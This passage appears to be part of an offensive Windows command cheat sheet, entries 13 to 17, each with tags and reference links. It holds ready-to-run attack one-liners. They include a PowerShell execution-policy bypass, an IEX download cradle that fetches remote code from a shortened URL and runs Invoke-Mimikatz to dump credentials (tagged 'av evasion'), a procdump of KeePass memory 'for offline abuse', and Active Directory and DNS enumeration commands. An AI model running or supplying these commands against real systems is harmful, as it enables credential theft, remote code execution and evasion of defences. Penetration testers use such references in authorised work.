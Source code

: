 https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
__________
### 13. powershell bypass block
```
powershell.exe -noprofile -executionpolicy bypass
```
**- Windows,powershell**
#### References:

https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
__________
### 14. Invoke mimicatz, can use with psexec for pwnage
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/1qMn59d'); Invoke-Mimikatz -DumpCreds"
```
**- passwords,Windows,av evasion,powershell**
#### References:

http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz
__________
### 15. Dump a processes memory for offline abuse
```
procdump.exe -accepteula -ma keepass.exe keepass.dmp
```
**- Windows,memory**
#### References:

https://sourceforge.net/p/keepass/feature-requests/1907/
__________
### 16. Powershell password last changed, run on DC
```
Get-ADUser -filter * -properties * | sort-object passwordlastset | select-object samaccountname, passwordlastset, passwordneverexpires, homedirectory, mail, enabled | Export-csv -path c:\temp\pwprofile.csv
```
**- enumeration,user information,Windows,powershell**
#### References:

https://yg.ht
https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 17. dump dns zone on DC
```
dnscmd 127.0.0.1 /ZoneExport [FQDN] [OUT].zone
```
**- enumeration,dns,Windows**
#### References:
